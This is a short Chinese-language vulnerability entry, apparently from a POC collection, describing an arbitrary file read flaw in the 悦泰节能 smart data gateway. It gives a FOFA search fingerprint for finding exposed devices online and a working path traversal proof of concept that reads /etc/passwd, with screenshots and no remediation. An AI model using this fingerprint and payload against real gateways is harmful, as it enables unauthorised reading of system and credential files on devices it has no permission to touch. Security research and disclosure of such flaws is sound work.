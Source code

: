 # 悦泰节能 智能数据网关 resources 任意文件读取漏洞

## 漏洞描述

悦泰节能 智能数据网关存在任意文件读取漏洞，通过构造特殊请求可以读取服务器任意文件

## 漏洞影响

```
悦泰节能 智能数据网关
```

## FOFA

```
body="/FWlib3/resources/css/xtheme-gray.cssz"
```

## 漏洞复现

登录页面

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162249593.png)

验证POC

```php
/FWlib3/resources//../../../../../../../../etc/passwd
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162249623.png)